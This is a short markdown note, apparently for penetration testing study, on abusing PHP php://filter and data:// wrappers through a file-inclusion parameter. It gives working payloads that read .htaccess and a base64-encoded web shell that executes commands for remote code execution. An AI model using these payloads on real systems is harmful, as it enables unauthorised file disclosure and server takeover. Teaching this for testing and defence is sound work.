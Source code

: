 
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

|   |   |
|---|---|
|**Payload**|**Output**|
|php://filter/convert.base64-encode/resource=.htaccess |UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz|
|php://filter/string.rot13/resource=.htaccess|ErjevgrRatvar ba Bcgvbaf -Vaqrkrf|
|php://filter/string.toupper/resource=.htaccess|REWRITEENGINE ON OPTIONS -INDEXES|
|php://filter/string.tolower/resource=.htaccess|rewriteengine on options -indexes|
|php://filter/string.strip_tags/resource=.htaccess|RewriteEngine on Options -Indexes|
|No filter applied|RewriteEngine on Options -Indexes|

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly within the URI, often used for embedding small data sets or resources.

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752